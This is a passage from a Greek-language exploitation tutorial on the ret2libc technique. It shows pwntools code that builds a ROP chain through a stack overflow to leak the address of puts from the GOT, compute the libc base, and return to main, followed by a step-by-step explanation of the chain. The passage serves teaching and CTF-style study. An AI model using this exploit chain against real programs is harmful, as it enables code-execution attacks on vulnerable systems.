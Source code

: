 Σε αυτό το βήμα δεν χρειάζεται να εκτελέσετε τίποτα καθώς όλα θα βρεθούν από το pwntools κατά την εκτέλεση.

## 3- Εύρεση βιβλιοθήκης libc

Τώρα είναι η ώρα να βρούμε ποια έκδοση της **βιβλιοθήκης libc** χρησιμοποιείται. Για να το κάνουμε αυτό, θα **διαρρεύσουμε** τη **διεύθυνση** στη μνήμη της **συνάρτησης** `puts` και στη συνέχεια θα **αναζητήσουμε** σε ποια **έκδοση βιβλιοθήκης** βρίσκεται η έκδοση του puts σε αυτή τη διεύθυνση.
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```
Για να το κάνετε αυτό, η πιο σημαντική γραμμή του εκτελούμενου κώδικα είναι:
```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
Αυτό θα στείλει μερικά bytes μέχρι να είναι **δυνατό** το **overwriting** του **RIP**: `OFFSET`.\
Στη συνέχεια, θα ρυθμίσει τη **διεύθυνση** του gadget `POP_RDI` έτσι ώστε η επόμενη διεύθυνση (`FUNC_GOT`) να αποθηκευτεί στο **RDI** registry. Αυτό συμβαίνει επειδή θέλουμε να **καλέσουμε το puts** **περνώντας** του τη **διεύθυνση** του `PUTS_GOT` καθώς η διεύθυνση στη μνήμη της συνάρτησης puts αποθηκεύεται στη διεύθυνση που δείχνει το `PUTS_GOT`.\
Μετά από αυτό, θα κληθεί το `PUTS_PLT` (με το `PUTS_GOT` μέσα στο **RDI**) έτσι ώστε το puts να **διαβάσει το περιεχόμενο** μέσα στο `PUTS_GOT` (**η διεύθυνση της συνάρτησης puts στη μνήμη**) και θα **το εκτυπώσει**.\
Τέλος, **η κύρια συνάρτηση καλείται ξανά** ώστε να μπορέσουμε να εκμεταλλευτούμε την υπερχείλιση ξανά.

Με αυτόν τον τρόπο έχουμε **παραπλανήσει τη συνάρτηση puts** να **εκτυπώσει** τη **διεύθυνση** στη **μνήμη** της συνάρτησης **puts** (η οποία είναι μέσα στη βιβλιοθήκη **libc**). Τώρα που έχουμε αυτή τη διεύθυνση μπορούμε να **αναζητήσουμε ποια έκδοση libc χρησιμοποιείται**.
